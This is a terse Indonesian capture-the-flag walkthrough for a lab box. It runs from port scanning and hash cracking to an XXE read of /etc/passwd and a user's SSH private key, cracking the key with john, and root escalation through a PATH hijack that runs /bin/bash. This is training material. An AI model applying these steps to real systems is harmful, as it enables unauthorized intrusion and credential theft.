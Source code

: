 # boot:
1. scan nmap ada port 22 80 ama port login -> di port 80 fuzz aja nanti nemu path
2. di path ada file .bak download aja -> terus strings namafile -> soalnya itu binary sqlite gitu
3. dapet tuh admin ama hash -> decrypt disini: https://md5decrypt.net/en/Sha1/
4. dapet nanti creds nya coba login admin:hasil hash
5. kelar login ctrl u aja -> ada form xml -> ama catatan buat barry
6. cari payload xxe -> nanti test ke arah /etc/passwd dulu -> kalau udah ke /home/barry/.ssh/id_rsa kan disuruh tadi
7. chmod 600 rsa -> butuh passphrase ternyata -> ssh2john rsa > rsa.hash 
8. sudo john rsa.hash --wordlist=rockyou



# pe: 
1. echo $PATH -> cd /tmp -> echo "/bin/bash" > tail -> chmod 777 tail -> export PATH=/tmp:$PATH
2. ./ke live log yang di joe itu -> klaim root 
